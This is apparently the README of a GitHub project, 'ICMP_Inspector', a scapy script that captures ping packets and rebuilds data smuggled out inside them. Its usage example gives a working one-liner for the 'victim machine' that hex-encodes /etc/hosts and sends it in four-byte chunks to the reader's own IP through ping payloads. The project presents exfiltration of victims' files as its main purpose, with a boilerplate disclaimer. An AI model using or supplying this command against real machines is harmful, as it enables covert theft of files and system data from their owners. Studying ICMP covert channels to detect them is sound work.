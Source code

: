 # ICMP_Inspector

**ICMP_Inspector** is a lightweight Python script designed to capture and analyze incoming ICMP packets on the `eth0` interface designed specifically to extract hidden data sent via the ICMP protocol.

> [!NOTE]  
> **Have in mind content can be exfiltrated from a machine via "sending pings" to other machines because icmp protocol tough ping can send up to 4bytes of data. This program specializes in retrieving this info and show it like it was in the host before the exfil.**

## Features
- Captures incoming ICMP packets in real-time.
- Filters packets specifically from the `eth0` interface.
- Parses the data to get the most accurate standart output from the machine.
- Lightweight and easy to use, suitable for quick testing or debugging.

## Requirements
- Python 3.x
- Libraries: `scapy`

## Installation
1. Clone this repository:
   ```bash
   git clone https://github.com/zer0plusone/ICMP_Inspector.git
   cd ICMPI_nspector
   ```
2. Install the required dependencies:
   ```bash
   pip install scapy
   ```

## Usage
Run the script with root privileges to capture packets:
```bash
sudo python3 ICMP_dataExfilter.py
```

### Example of ssage

Lets say you tried to send the archive /etc/hosts from a linux machine to your own machine.

First of all you will have to execute the next comand in the victim machine:
```bash
xxd -p -c 4 /etc/hosts | while read line; do ping -c 1 -p $line $YOUR_IP; done
```

The ICMP protocol will send the data in packets of 4 bytes to your machine, you will have to have the script running in your terminal by the moment you press enter in the other command. The final result and what you will see in your terminal will be the full content of the archive as it should look in the victim machine.

## Disclaimer
1. Use this tool responsibly and only on networks where you have explicit permission.

2. Unauthorized packet inspection may violate laws or regulations in your jurisdiction.

3. THE DEVELOPER OF THIS PROGRAM ISN'T RESPONSIBLE FOR THE USE THIRD PARTY USERS GIVE TO THIS REPOSITORY.

## License
This project is licensed under the MIT License. See the `LICENSE` file for details.

## Contributions
Contributions are welcome! Fork the repository, make your changes, and submit a pull request for review.
